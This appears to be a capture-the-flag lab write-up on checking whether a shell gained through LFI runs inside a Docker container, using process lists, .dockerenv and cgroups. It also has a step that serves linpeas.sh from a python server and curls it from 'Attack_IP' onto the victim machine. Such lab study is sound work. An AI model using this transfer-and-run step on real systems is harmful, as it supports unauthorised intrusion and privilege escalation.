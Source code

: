 Now that we have gained a shell onto the webserver, we need to perform some situational awareness to figure out where we are. We know from looking through some files when we exploited LFI that this may be a container. We can run some further enumeration and information gathering to identify whether that is true or not and anyway misconfigurations that might allow us to escape the container.  

From the Docker documentation, "A container is a standard unit of software that packages up code and all its dependencies, so the application runs quickly and reliably from one computing environment to another. A Docker container image is a lightweight, standalone, executable package of software that includes everything needed to run an application: code, runtime, system tools, system libraries, and settings."  

![](https://i.imgur.com/2oFwU49.png)  

Containers have networking capabilities and their own file storage. They achieve this by using three components of the Linux kernel:

- Namespaces
- Cgroups
- OverlayFS

But we're only going to be interested in namespaces here; after all, they lay at the heart of it. Namespaces essentially segregate system resources such as processes, files, and memory away from other namespaces.  

Every process running on Linux will be assigned a PID and a namespace.

Namespaces are how containerization is achieved! Processes can only "see" the process that is in the same namespace - no conflicts in theory. Take Docker; for example, every new container will be running as a new namespace, although the container may be running multiple applications (and, in turn, processes).  

Let's prove the concept of containerization by comparing the number of processes there are in a Docker container that is running a web server versus the host operating system at the time.  

We can look for various indicators that have been placed into a container. Containers, due to their isolated nature, will often have very few processes running in comparison to something such as a virtual machine. We can simply use `ps aux` to print the running processes. Note in the screenshot below that there are very few processes running?

Command used: `ps aux` 

![](https://i.imgur.com/NkdQRCE.png)  

Containers allow environment variables to be provided from the host operating system by the use of a `.dockerenv` file. This file is located in the "/" directory and would exist on a container - even if no environment variables were provided.

Command used: `cd / && ls -lah`

![](https://i.imgur.com/YbH0rGm.png)  

Cgroups are used by containerization software such as LXC or Docker. Let's look for them by navigating to `/proc/1` and then catting the "cgroup" file... It is worth mentioning that the "cgroups" file contains paths including the word "docker".

![](https://i.imgur.com/LxU3w2p.png)


---

# Your job

## linpeas

- Transfer [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) to the Victim Machine. Host the file in a python webserver by doing `python3 -m http.server 80` and then download the file in the remote machine with curl `curl [http://Attack_IP/linpeas.sh](http://Attack_IP/linpeas.sh) -output <remote_location_to_save>`
- Run linpeas.

	![[Task - 15 Docker? I hardly even know her!-20240909133501872.webp]]
	![[Task - 15 Docker? I hardly even know her!-20240909133807008.webp]]

	You'll get a very important information at the beginning. It says we are inside a Docker environment. So that means we are not actually in the `.33` machine, we got the shell in a container that is running inside `.33` machine.



